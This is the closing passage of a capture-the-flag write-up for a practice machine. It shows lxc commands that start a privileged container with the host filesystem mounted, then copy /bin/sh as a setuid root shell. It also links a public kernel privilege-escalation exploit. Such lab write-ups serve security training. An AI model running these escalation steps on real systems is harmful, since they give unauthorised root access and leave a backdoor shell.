

After this process we'll have a file name `alpine-v3.10-x86_64-20190730_0048.tar.gz`
* Transfer this file to machine.
* Run this script and you will get root



* Once inside the container, navigate to /mnt/root/root to get the flag.



As you can see that I used a existing script to do all the work. But [@4ndr34z](https://twitter.com/4ndr34z) did all that manually. Following are the commands that you need to run to be able to do the same thing I did with script:


* lxc init
* lxc launch ubuntu:18.04
* lxc list
* lxc stop workable-drake
* lxc image list
* lxc init 368bb7174b67 test -c security.privileged=true
* lxc config device add test whatever disk source=/ path=/mnt/root recursive=true
* lxc start test
* lxc exec test bash

After that you can run the following set of commands:

* cd ../mnt
* cd root
* cd home
* cd jigsaw
* cp /mnt/root/bin/sh shell
* chmod 4775 shell

Thanks to [@4ndr34z](https://twitter.com/4ndr34z) for pointing out that `lxc` is installed on the system.

## Untested Privelege escalation

There is supposed to be another privilege escalation method. I didn't tested this because by this point I had already deleted the VM. But if you are curious then you can try it out.

This is a kernel exploit which came out recently so chances are it may work.

The link to the exploit - [Linux Kernel 4.10 < 5.1.17 - 'PTRACE_TRACEME' pkexec Local Privilege Escalation](https://www.exploit-db.com/exploits/47163)

***

I know this is the crazy writeup with lot of missing links but technically I completed the machine in a totally unintended way but I guess that is why this machine was really a fun to do.

Thanks to [@zayotic](https://twitter.com/zayotic) for this insane machine and thanks to [@4ndr34z](https://twitter.com/4ndr34z) for showing me the right path and letting me use his screenshot for the [Mod copy with metasploit](#mod-copy-with-metasploit) section.

If you find other ways to do this machine please let me know.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
